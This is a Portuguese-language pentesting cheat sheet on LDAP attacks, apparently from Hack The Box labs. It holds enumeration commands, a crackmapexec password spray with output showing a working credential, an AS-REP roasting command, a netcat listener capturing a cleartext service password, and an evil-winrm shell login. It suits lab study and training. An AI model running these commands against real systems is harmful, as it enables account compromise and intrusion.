 # LDAP

**Enum**

Users

Este script em python faz enumeração dos utilizadores

`./windapsearch.py -d resolute.megabank.local --dc-ip 10.10.10.169 -U`

![Untitled](LDAP%205cd1610eef3b48dcb125faa5d5042a62/Untitled.png)

Este faz enumeração de utilizadores de forma mais detalhada

`./windapsearch.py -d resolute.megabank.local --dc-ip 10.10.10.169 -U --full |
grep Password`

![Untitled](LDAP%205cd1610eef3b48dcb125faa5d5042a62/Untitled%201.png)

Aqui encontramos uma uma palavra pass

`crackmapexec smb 10.129.96.155 -u hosts.txt -p 'Welcome123!'`

```
└──╼ [★]$ crackmapexec smb 10.129.96.155 -u hosts.txt -p 'Welcome123!' 
SMB         10.129.96.155   445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\ryan:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\marko:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\sunita:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\abigail:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\marcus:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\sally:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\fred:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\angela:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\felicia:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\gustavo:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\ulf:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\stevie:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\claire:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\paulo:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\steve:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\annette:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\annika:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\per:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [-] megabank.local\claude:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.96.155   445    RESOLUTE         [+] megabank.local\melanie:Welcome123!
```

```bash
ldapsearch -H ldap://10.129.83.134 -x -s base namingcontexts
ldapsearch -x -b "dc=htb,dc=local" -H ldap://10.129.83.134
ldapsearch -x -b "dc=htb,dc=local" -D 'ldap@support.htb'-w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -H ldap://10.129.57.124
ldapsearch -x -b "dc=htb,dc=local" -H ldap://10.129.83.134 '(objectclass=person)' sAMAccountName
ldapsearch -x -b "dc=htb,dc=local" -H ldap://10.129.83.134 '(objectclass=person)' sAMAccountName | grep sAMAccountName | awk '{print $2}'
ldapsearch -H ldap://10.10.10.10 -p 389 -x -b "dc=htb,dc=local"

rcpclient -U ''
```

[https://github.com/ropnop/windapsearch](https://github.com/ropnop/windapsearch)

```bash
**Enum Users**
python windapsearch.py -d hb.local --dc-ip 10.10.10.10 -U 
**Enum ObjectClass**
python windapsearch.py -d hb.local --dc-ip 10.10.10.10 --custom "objectClass=*" 
**Get kerberos hash** 
GetNPUsers.py htb.local/svc-alfresco -dc-ip 10.129.138.254 -no-pass
```

- WebLDAP
    
    Obter informações 
    
    ![Untitled](LDAP%205cd1610eef3b48dcb125faa5d5042a62/Untitled%202.png)
    
    Acrescentar um valor no LDAP 
    
    ![Untitled](LDAP%205cd1610eef3b48dcb125faa5d5042a62/Untitled%203.png)
    
    Por um listener e colocar em testar LDAP
    
    ```
    nc -lvnp 389
    listening on [any] 389 ...
    connect to [10.10.14.20] from (UNKNOWN) [10.10.11.222] 56867
    0Y`T;CN=svc_ldap,OU=Service
    Accounts,OU=CORP,DC=authority,DC=htb�lDaP_1n_th3_cle4r!
    ```
    
    Fazer login
    
    ```
    evil-winrm -i 10.10.11.222 -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
    Evil-WinRM shell v3.3
    Info: Establishing connection to remote endpoint
    *Evil-WinRM* PS C:\Users\svc_ldap\Documents> whoami
    htb\svc_ldap
    ```